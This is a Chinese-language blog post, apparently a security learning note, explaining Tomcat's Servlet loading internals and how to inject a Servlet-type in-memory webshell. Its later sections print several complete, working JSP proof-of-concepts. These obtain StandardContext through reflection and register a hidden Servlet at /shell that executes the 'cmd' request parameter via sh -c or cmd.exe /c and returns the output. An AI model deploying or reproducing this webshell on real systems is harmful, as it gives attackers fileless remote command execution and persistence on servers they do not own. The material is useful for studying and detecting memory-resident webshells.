---
title: "Java内存马三之Servlet型内存马"
date: 2026-03-18T14:50:52+08:00
summary: "Servlet型内存马"
url: "/posts/Java内存马之Servlet型内存马/"
categories:
  - "javasec"
tags:
  - "javasec"
draft: false
---

# 什么是Servlet？

参考文章：https://blog.csdn.net/caqjeryy/article/details/122095308

Servlet是Java Servlet的简称，是使用Java语言编写的运行在服务器端的程序。它是作为来自 HTTP 客户端的请求和 HTTP 服务器上的数据库或应用程序之间的中间层。它负责处理用户的请求，并根据请求生成相应的返回信息提供给用户。

请求处理过程：

- Servlet容器接收到请求，根据请求信息，封装成HttpServletRequest和HttpServletResponse对象。
- Servlet容器调用HttpServlet的init()方法，init方法只在第一次请求的时候被调用。
- Servlet容器调用service()方法。
- service()方法根据请求类型，这里是get类型，分别调用doGet或者doPost方法。
- 容器关闭时候，会调用destory方法

这个其实是很常规的，就比如python内存马里面的动态创建路由一样

我们看看Servlet接口下有什么东西



Servlet 接口分别有如下几个方法

```java
public interface Servlet {  
   void init(ServletConfig var1) throws ServletException; // init方法，创建好实例后会被立即调用，仅调用一次。  
  
   ServletConfig getServletConfig();//返回一个ServletConfig对象，其中包含这个servlet初始化和启动参数  
  
   void service(ServletRequest var1, ServletResponse var2) throws ServletException, IOException;  //每次调用该servlet都会执行service方法，service方法中实现了我们具体想要对请求的处理。  
  
   String getServletInfo();//返回有关servlet的信息，如作者、版本和版权.  
  
   void destroy();//只会在当前servlet所在的web被卸载的时候执行一次，释放servlet占用的资源  
}
```

所以我们要写恶意代码的话肯定是要写在service()方法中，然后我们来分析一下代码

# 编写一个Servlet的Demo

其实这个demo在Filter的时候也有写过，但是是用的HttpServlet，然后我们用Servlet接口的实现去写一个恶意demo

```java
package com.example.Servlet_Memshell;

import javax.servlet.*;
import java.io.IOException;
import java.io.InputStream;
import java.io.PrintWriter;
import java.util.Scanner;

public class TestServlet implements Servlet {
    @Override
    public ServletConfig getServletConfig() {
        return null;
    }

    @Override
    public void service(ServletRequest req, ServletResponse res) {
        String cmd = req.getParameter("cmd");
        try{
            if(cmd != null) {
                boolean isLinux = true;
                String osType = System.getProperty("os.name").toLowerCase();
                if (osType != null && osType.contains("win") ) {
                    isLinux = false;
                }
                String[] cmdArray = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe","/c", cmd};//根据操作系统选择shell
                InputStream in = Runtime.getRuntime().exec(cmdArray).getInputStream();
                Scanner scanner = new Scanner(in).useDelimiter("\\A");  //使用Scanner读取InputStream内容
                String output = scanner.hasNext() ? scanner.next() : "";    //监测是否有内容
                PrintWriter out = res.getWriter();
                out.println(output);
                out.flush();
                out.close();
            }
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }

    @Override
    public String getServletInfo() {
        return null;
    }
    @Override
    public void destroy() {
    }

    @Override
    public void init(ServletConfig config) throws ServletException {
    }
}
```



# 从代码层面看Servlet的生命周期

在Servlet规范中，servlet的生命周期包括初始化阶段、运行阶段、销毁阶段

Servlet 生命周期中 init 和 destroy 方法只会在 Servlet 实例创建和销毁时被调用一次，而 service 方法则会在每个请求到达时被调用一次。

找到一个比较规范的图



参考文章：https://longlone.top/%E5%AE%89%E5%85%A8/java/java%E5%AE%89%E5%85%A8/%E5%86%85%E5%AD%98%E9%A9%AC/Tomcat-Servlet%E5%9E%8B/

实际上在Tomcat7之后的版本，StandardContext中就提供了动态注册Servlet的方法，但是并没有实现



所以我们需要自己去实现动态添加servlet的功能，但是我们先来了解一下servlet的生命周期

## Servlet初始化流程分析

首先在`org.apache.catalina.core.StandardWrapper#setServletClass()`处下断点调试



追踪一下这个函数的上层调用位

上层调用位置位于`org.apache.catalina.startup.ContextConfig#configureContext`



不难看到这个函数其实就是接收我们的web.xml文件内容并进行处理的函数，然后我们分析一下这段代码都干了什么



for循环开始先是利用webxml.getServlet()获取到所有的Servlet定义，然后createWrapper去创建一个Wrapper对象，之后利用setter和getter的方式去设置wrapper中servlet相关的属性，这里的话一个关键的属性就是load-on-startup属性，他会告诉tomcat是否在启动时立即加载并初始化该 Servlet。另外会获取到servlet的名称等等这些基础属性



继续获取到servlet的完全限定类名，之后初始化这些参数添加到wrapper中，这些参数在初始化的时候会传递给servlet的init()初始化方法

最后通过`context.addChild(wrapper);`将配置好的`Wrapper`添加到`Context`中，完成`Servlet`的初始化过程。

上面大的`for`循环中嵌套的最后一个`for`循环则负责处理`Servlet`的`url`映射，调用`StandardContext.addServletMappingDecoded()`添加servlet对应的映射，将`Servlet`的`url`与`Servlet`名称关联起来。

总的来说，Servlet的初始化主要经过了以下

-  `Wrapper wrapper = context.createWrapper();` 创建 Wapper 对象
- `wrapper.setLoadOnStartup(servlet.getLoadOnStartup().intValue());` 设置的LoadOnStartUp 的值
- `wrapper.setName(servlet.getServletName());`设置 Servlet 的 Name
- `wrapper.setServletClass(servlet.getServletClass());`设置 Servlet 对应的 Class全限定类名
- `context.addChild(wrapper);`将 Servlet 添加到 context 的 children 中
- `context.addServletMappingDecoded(entry.getKey(), entry.getValue());`将 url 路径和 servlet 类做映射

## Servlet装载流程分析

在`org.apache.catalina.core.StandardWrapper#loadServlet`这里打下断点进行调试，重点关注`org.apache.catalina.core.StandardContext#startInternal`



可以看到是在加载完Listener和Filter之后，才装载Servlet



所以在servlet容器启动之后会依次处理Listener->Filer->Servlet

在最后的if中调用了一个loadOnstartup()方法，并调用findChildren()从StandardContext中拿到所有的child传入该方法中，我们跟进这个方法看看



根据注释的话其实也很明白了，可以看到，这段代码先是创建一个`TreeMap`，然后遍历传入的`Container`数组，将每个`Servlet`的`loadOnStartup`值作为键，将对应的`Wrapper`对象存储在相应的列表中；如果这个`loadOnStartup`值是负数，除非你请求访问它，否则就不会加载；如果是非负数，那么就按照这个`loadOnStartup`的升序的顺序来加载。



然后就是遍历Servlet数组并调用load()去加载了

其实从这里的话我们可以更进一步的了解到load-on-startup属性的作用，其实简单来说就是定义是否在服务器启动的时候就加载这个servlet，并且这个属性的内容需要是一个整数，这样的话就可以明确servlet被加载的前后顺序，其实tomcat就相当于采用一种懒加载的机制，当该属性没被设置时，只有发送请求（servlet被调用的时候才会加载到context中）。

回到我们最初的目的，既然我们需要动态注册servlet，然后可以联想到python内存马中的一个after_request和before_request钩子函数的使用，那么这里就同样需要设置一个load-on-startup属性

# 关于context的获取（漏掉啦）

但是上面漏了讲一个点，就是关于context的获取，我们用传统的Tomcat去调试来看一下

修改pom.xml如下

```xml
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/maven-v4_0_0.xsd">
  <modelVersion>4.0.0</modelVersion>
  <groupId>org.example</groupId>
  <artifactId>TestServlet</artifactId>
  <packaging>war</packaging>
  <version>1.0-SNAPSHOT</version>
  <name>TestServlet Maven Webapp</name>
  <url>http://maven.apache.org</url>
  <dependencies>
    <dependency>
      <groupId>junit</groupId>
      <artifactId>junit</artifactId>
      <version>3.8.1</version>
      <scope>test</scope>
    </dependency>
    <dependency>
      <groupId>javax.servlet</groupId>
      <artifactId>javax.servlet-api</artifactId>
      <version>4.0.1</version>
      <scope>provided</scope>
    </dependency>
    <dependency>
      <groupId>org.apache.tomcat</groupId>
      <artifactId>tomcat-catalina</artifactId>
      <version>9.0.108</version>
    </dependency>
  </dependencies>
  <build>
    <finalName>TestServlet</finalName>
  </build>
</project>

```

记得下载一下源代码，不然不好找

在org.apache.catalina.startup.ContextConfig#configureContext()中



在底下可以看到，这里的话通过传入的webxml分析拿到的servlets和servletMapping

我们在刚刚的for循环那里打个断点



这里的话会遍历所有的servlets的值，然后createWrapper()创建一个wrapper对象，我们走一遍循环看一下

例如第一个servlet是default



经过setName后会在wrapper对象中设置一个name属性为default



经过setServletClass后会设置一个servletClass属性的值为org.apache.catalina.servlets.DefaultServlet

最后通过addChild将该对象添加到context中

然后我们来看一下如何将url 路径和 servlet 类做映射的



这里的话会遍历webxml中ServletMapping的键值



参照地下的数组和上面的entry的值可以知道，key就是`*.jspx`，而value就是`jsp`，之后会分别getKey获取key和getValue获取值并传到addServletMappingDecoded方法中调用并返回给context

到这就是大致的思路，然后就是关于context的来源了



从this.context中可以看到这个context实际上就是StandardContext，那我们如何获取到StandardContext呢？

```java
HttpServletRequest.getServletContext.context.context
```

我们可以先调试一下，在TestServlet中的doGet方法打个断点



点击debug后弹出网页，我们访问TestServlet类映射的路由/test



然后我们调用req.getServletContext()，回车在结果中看到一个context



这里可以看到有一个ApplicationContext，展开这个context后在里面找到一个context



很惊喜的发现这个context的值就是刚刚我们调试的时候的context值，所以这个context就是我们需要获取到的context值

基于这些原理，我们就可以写出一个内存马的具体实现

# Servlet内存马实现

## 什么是Servlet内存马？

Servlet内存马是通过动态注册servlet来实现的一种内存攻击手段。在Java Web应用中，Servlet作为处理客户端请求的核心组件之一，能够直接处理http请求并返回响应。攻击者利用该特点，通过程序化地向Web容器例如Tomcat在运行时注册恶意的Servlet对象，使得该servlet能够在没用实际文件存在的情况下执行恶意程序。

https://longlone.top/%E5%AE%89%E5%85%A8/java/java%E5%AE%89%E5%85%A8/%E5%86%85%E5%AD%98%E9%A9%AC/Tomcat-Servlet%E5%9E%8B/#%E5%86%85%E5%AD%98%E9%A9%AC%E5%AE%9E%E7%8E%B0%E6%B5%81%E7%A8%8B%E5%88%86%E6%9E%90

## Servlet内存马的条件和注入方式1

从 Servlet 3.0 规范开始 (对应 Tomcat 7.0 及以上版本)，Java Web 才正式支持通过 ServletContext 对象**动态地**、**以编程方式**注册新的 Servlet、Filter 和 Listener。

从上面的分析来看，实现内存马的步骤主要就是以下几个部分：

1. 获取 `StandardContext` 对象
2. 编写恶意 Servlet
3. 通过 `StandardContext.createWrapper()` 创建`StandardWrapper` 对象
4. 设置 `StandardWrapper` 对象的 `loadOnStartup` 属性值
5. 设置 `StandardWrapper` 对象的 `ServletName` 属性值
6. 设置 `StandardWrapper` 对象的 `ServletClass` 属性值
7. 将 `StandardWrapper` 对象添加进 `StandardContext` 对象的 `children` 属性中
8. 通过 `StandardContext.addServletMappingDecoded()` 添加对应的路径映射

## 内存马POC编写

由浅入深我们先熟悉一下动态注册Servlet的过程

例如我们尝试写了一个恶意的jsp文件

第一步就是获取到StandardContext，这一步我们可以通过反射去实现

```jsp
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%
    //反射获取StandardContext
    ServletContext servletContext = request.getServletContext();
    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
%>
```

不过这里的话还有一种可以获取到StandardContext的方法

同样的，在doGet打个断点然后访问/test



在底下可以看到一个request字段表示一个Request对象，然后我们传入`((RequestFacade) req).request.getContext()`表达式



成功找到这个context，由此可得

```java
	// 更简单的方法 获取StandardContext
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext standardContext = (StandardContext) req.getContext();
```

第二步就是编写一个恶意`servlet`

```java
    class S implements Servlet{
        @Override
        public void init(ServletConfig config) throws ServletException {

        }
        @Override
        public ServletConfig getServletConfig(){
            return null;
        }

        @Override
        public void service(ServletRequest req, ServletResponse res) throws ServletException, IOException {
            String cmd = req.getParameter("cmd");
            if(cmd != null){
                try {
                    Runtime.getRuntime().exec(cmd);
                } catch (IOException e){
                    e.printStackTrace();
                }
            }
        }
        
        @Override
        public void destroy(){
            
        }
        @Override
        public String getServletInfo(){
            return null;
        }
    }
```

这第三步就是要包装一下这个servlet，为了方便看，我把servlet初始化的流程搬过来

- `Wrapper wrapper = context.createWrapper();` 创建 Wapper 对象
- `wrapper.setLoadOnStartup(servlet.getLoadOnStartup().intValue());` 设置的LoadOnStartUp 的值
- `wrapper.setName(servlet.getServletName());`设置 Servlet 的 Name
- `wrapper.setServletClass(servlet.getServletClass());`设置 Servlet 对应的 Class全限定类名
- `context.addChild(wrapper);`将 Servlet 添加到 context 的 children 中
- `context.addServletMappingDecoded(entry.getKey(), entry.getValue());`将 url 路径和 servlet 类做映射

```java
S servlet = new S();
String name = servlet.getClass().getSimpleName();
Wrapper newwrapper = standardContext.createWrapper();
newwrapper.setName(name);
newwrapper.setLoadOnStartup(1);
newwrapper.setServlet(servlet);
newwrapper.setServletClass(servlet.getClass().getName());
standardContext.addChild(newwrapper);
standardContext.addServletMappingDecoded("/shell",name);
```

所以最后的完整poc就是

# 完整POC1

```jsp
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%--<%@ page import="org.apache.catalina.connector.Request" %>--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%
    class S implements Servlet{
        @Override
        public void init(ServletConfig config) throws ServletException {

        }
        @Override
        public ServletConfig getServletConfig(){
            return null;
        }

        @Override
        public void service(ServletRequest req, ServletResponse res) throws ServletException, IOException {
            String cmd = req.getParameter("cmd");
            if(cmd != null){
                try {
                    Runtime.getRuntime().exec(cmd);
                } catch (IOException e){
                }
            }
        }

        @Override
        public void destroy(){

        }
        @Override
        public String getServletInfo(){
            return null;
        }
    }
%>
<%
    //反射获取StandardContext
    ServletContext servletContext = request.getServletContext();
    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

    // 更简单的方法 获取StandardContext
//    Field reqF = request.getClass().getDeclaredField("request");
//    reqF.setAccessible(true);
//    Request req = (Request) reqF.get(request);
//    StandardContext standardContext = (StandardContext) req.getContext();

    S servlet = new S();
    String name = servlet.getClass().getSimpleName();
    Wrapper newwrapper = standardContext.createWrapper();
    newwrapper.setName(name);
    newwrapper.setLoadOnStartup(1);
    newwrapper.setServlet(servlet);
    newwrapper.setServletClass(servlet.getClass().getName());
    standardContext.addChild(newwrapper);
    standardContext.addServletMappingDecoded("/shell",name);

    out.println("inject success");
%>
```

写完后启动服务器并访问这个jsp文件



然后访问我们刚刚的路由并RCE



成功弹出计算器，成功啦！

但是这个poc其实还不够全面，一方面是runtime的exec函数只会返回一个proccess对象而不会返回命令执行回显内容，我们改进一下

# 好用的POC

## JSP内存马

```java
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.PrintWriter" %>
<%--<%@ page import="org.apache.catalina.connector.Request" %>--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%
  Servlet servlet = new Servlet() {
    @Override
    public void init(ServletConfig servletConfig) throws ServletException {

    }

    @Override
    public ServletConfig getServletConfig() {
      return null;
    }

    @Override
    public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
      String cmd = servletRequest.getParameter("cmd");
      boolean isLinux = true;
      String osTyp = System.getProperty("os.name");
      if (osTyp != null && osTyp.toLowerCase().contains("win")) {
        isLinux = false;
      }
      String[] cmdArray = isLinux ? new String[]{"sh","-c",cmd} : new String[]{"cmd.exe","/c",cmd}; //根据操作系统选择shell
      //执行命令并获取命令输出
      InputStream in = Runtime.getRuntime().exec(cmdArray).getInputStream();
      Scanner s = new Scanner(in).useDelimiter("\\a");  //使用 Scanner 读取 InputStream 的内容
      String output = s.hasNext() ? s.next() : "";  //如果有内容就读取，否则为空字符串
      PrintWriter out = servletResponse.getWriter();  //获取 Servlet 输出流，用于返回给客户端（浏览器）
      out.println(output);  //打印输出
      out.flush();
      out.close();

    }

    @Override
    public String getServletInfo() {
      return "";
    }

    @Override
    public void destroy() {

    }
  }
%>
<%
  //反射获取StandardContext
  ServletContext servletContext = request.getServletContext();
  Field appctx = servletContext.getClass().getDeclaredField("context");
  appctx.setAccessible(true);
  ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
  Field stdctx = applicationContext.getClass().getDeclaredField("context");
  stdctx.setAccessible(true);
  StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

  // 更简单的方法 获取StandardContext
//    Field reqF = request.getClass().getDeclaredField("request");
//    reqF.setAccessible(true);
//    Request req = (Request) reqF.get(request);
//    StandardContext standardContext = (StandardContext) req.getContext();
  
  String name = servlet.getClass().getSimpleName();
  Wrapper newwrapper = standardContext.createWrapper();
  newwrapper.setName(name);
  newwrapper.setLoadOnStartup(1);
  newwrapper.setServlet(servlet);
  newwrapper.setServletClass(servlet.getClass().getName());
  standardContext.addChild(newwrapper);
  standardContext.addServletMappingDecoded("/shell",name);

  out.println("inject success");
%>
```

这里的话多了一个对操作系统的判断，根据Linux或者Windows操作系统去选择各自的shell，之后对命令的输出进行了一个获取和打印操作




# 完美撒花，小结一下

基于Servlet-api的内存马就学完了，但其实后面会根据不同的waf去进行调整，例如无回显，打请求头注入，或者长度限制之类的，但其实收获还是很大的，因为自己遇到了一个做题的问题就是拿到源码后有点无从下手，我归结为是对这些源码的结构不够明确，对代码审计能力还需要提升，所以希望自己再继续努力吧

关于servlet内存马，我觉得最重要的就是需要审计代码然后找到对应的context，也就是standardcontext，之后的话就是根据源码的实现去调用对应的函数去进行操作了

参考文章：

https://nosec.org/home/detail/5049.html

https://xz.aliyun.com/news/18301

https://github.com/W01fh4cker/LearnJavaMemshellFromZero

https://xz.aliyun.com/news/13078

https://su18.org/post/memory-shell/
